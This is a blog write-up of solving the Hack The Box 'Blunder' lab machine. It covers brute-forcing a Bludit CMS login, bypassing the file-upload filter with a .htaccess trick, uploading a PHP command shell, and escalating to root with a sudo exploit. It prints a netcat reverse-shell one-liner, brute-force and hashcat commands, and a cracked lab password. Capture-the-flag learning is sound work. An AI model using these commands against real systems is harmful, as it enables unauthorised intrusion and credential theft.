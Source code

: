 ```yaml
---
id: 229
title: 'Writeup - Hack The Box Blunder'
date: '2020-10-30T19:25:21+00:00'
author: admin
layout: post
guid: 'https://embed-me.com/?p=229'
permalink: /htb-blunder/
wp_featherlight_disable:
    - ''
categories:
    - 'Hack the Box'
    - 'Penetration Testing'
tags:
    - Blunder
    - 'Hack The Box'
    - HTB
    - 'Penetration Testing'
    - Pentesting
---
```


## Intro

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blunder.png)

The following post will describe how I hacked the previously retired Blunder Box. However, I am not an experienced Pentester, therefore take everything I say with a grain of salt. Now let’s have some fun with this nice Linux Box.

## Setup

As usual add the box to the */etc/hosts* file. This makes our lives easier, since we do not need to remember the IP-Address.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hosts_file.png)

## Recon

In order to discover potential attack vectors, we have to enumerate the target using nmap.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/nmap.png)

Apache webserver is running on port 80 and we are able to visit the website hosted on the machine using an ordinary browser. After playing around a little bit – there is not a lot that can be done – it looks like a minimalistic blog.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blog.png)

In order to find out if there are any directories or files on the webserver which are not linked we can make use of [gobuster](https://tools.kali.org/web-applications/gobuster). There are many other alternatives, even tools that provide a GUI (eg.: [dirbuster](https://tools.kali.org/web-applications/dirbuster)).

Just a few seconds later, we already found a some interesting files.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gobuster.png)

Implementing REP (Robots-Exclusion-Standard-Protocol), *robots.txt* is also often a source of hidden paths which might not be covered by an ordinary wordlist, however, in this case it is useless as it contains nothing.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/robots.png)

The only really useful information that I was able to fetch was the username “*fergus*” from within a text file called *todo.txt*.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fergus_user.png)

The CMS used is called [Bludit ](https://github.com/bludit/bludit)and with a closer look at the sites html header, the exact version (**3.9.2**) can be determined.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_version.png)

Now that we have all the information that we can get (at least for now), it is time to find vulnerabilities. After the last step, we know some of the specifics of the CMS and [exploit-db](https://www.exploit-db.com) offers some usable results.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_vulnerabilities.png)

Let’s use the available python script to bruteforce the passwords. Seems like it simply parses the CSRF token from the HTML, passes it in the request header and finally issues the login request with the provided username and password. In order to check if the login was successful the script checks for “*/admin/dashboard*“. The most promising usernames are probably *“admin*” and “*fergust*“. In order to guess the password *rockyou.txt* can be worth a shot.

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p /usr/share/wordlists/rockyou.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_1.png)

However, I had to give up after some time since I was not able to find a working combination. The password has to be somewhere on the webpage. Let’s try the wordlist generator [cewl](https://tools.kali.org/password-attacks/cewl) to generate a password-list with the content of the page and repeat the above process.

``` bash
cewl http://htb.blunder > passwords.txt
```

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p passwords.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_2.png)

Finally success, we have the credentials and we can login as user “*fergus*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/admin_dashboard.png)

Using the browser again, we are in the admin dashboard. Btw, I really like the “visits curve” ;-).

There is not a lot we can do due to missing permissions, however, it seems like we are able to post and upload files. Interesting!, especially because there was a path traversal attack in the exploit database.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fileupload_filter.png)

After playing a round a little bit, it seems like there are two checks in the code. First, before uploading – in the browser – and also later on the backend. Selecting a file with the file-ending .gif and altering the request won’t work. Uploading a file with the allowed file endings makes no sense, since then they won’t be executed. Also the file endings provided do not look promising for any attack that I am aware of (except maybe XSS for the svg, but that does not help right now). What if the backend verifies the file header, not the file-ending. I ended up downloading a random GIF file from google to read the files magic header. Btw, there is also a huge database available online: [https://www.garykessler.net/library/file\_sigs.html](https://www.garykessler.net/library/file_sigs.html)

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gif_header.png)

I tried to add the magic header in front of the php code, however, was not able to trick the server into accepting the file.

After almost giving up, I stumbled upon the following issue in git: <https://github.com/bludit/bludit/issues/1081>  
The trick of the exploit was to upload a “*.htaccess*” file which switches off the RewriteEngine (<https://httpd.apache.org/docs/current/howto/htaccess.html>). The following lines show the corresponding request.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit_1.png)

After that we are able to upload the “*expoit.php*” file as follows. It will execute commands provided with the “q” parameter. This allows for more flexibility to structure the reverse shell code.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit.png)

I ended up using the following reverse shell.

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4444 >/tmp/f
```

As soon as the payload executed, the attack machines listener got the connection to the target.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/reverse_shell_listener.png)

Poking around a little, I figured that reading the “*user.txt*” flag was not possible since the process was running as “*www-data*” user. We have to perform privilege escalation in order to get to the flag.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/www-data_user.png)

On the target machine, the following path looked promising. A “*users.php*” file was present, in it two hashes for the “*admin”* and the “*hugo”* users. Both salted, however.

``` bash
/var/www/bludit-3.9.2/bl-content/databases
```

I had to try my luck on the admin user credentials, so I identified the hash using [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier).

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_identifier.png)

Looking through the source code of Bludit in github, indeed, the password is for this version is of the form *sha1(password.salt)*:

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_git.png)

However, due to the salted password, it is not possible to use a rainbow table… I tried to crack it using [hashcat](https://tools.kali.org/password-attacks/hashcat), but after some time I had to give up.

``` bash
hashcat --hex-salt --hash-type 110 -a 3 admin.hash /usr/share/wordlists/rockyou.txt
```

Back on the Blunder Box, I found another path to a updated newer version of Bludit that I previously missed.

``` bash
/var/www/bludit-3.10.0a/bl-content/databases
```

It also contains a hash, however it seems like no salt is used. Therefore rainbowtables can be used!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_without_salt.png)

Using [CrackStation](https://crackstation.net/) I was able to crack the hash in a matter of seconds. The credentials are “*hugo:Password120*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hugo_user.png)

Aaaaaaaand we are able to grab the first flag in user.txt!

``` bash
90c8********************7f0d
```

## Getting root

However, our current user “*hugo”* cannot make use of sudo and does not have permissions to grab the *root.txt* file.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/sudo_version.png)

Googling for sudo 1.8.25p1 led me to the following exploit on [exploit-db](https://www.exploit-db.com/exploits/47502) (again).

In order for the attack to work, I had to spawning a TTY Shell using python.

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I was able to exploit the vulnerability mentioned above in order to get root!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/privilage_escalation_root.png)

Finally, the last flag in */root/root.txt* can be grabbed. ***S******uccess!***

``` bash
5495********************cf40
```

This box really was fun, and for me as a beginner, the challenge was quite hard to be honest. However, finishing a box is always a nice experience and you definitely get better and better every time.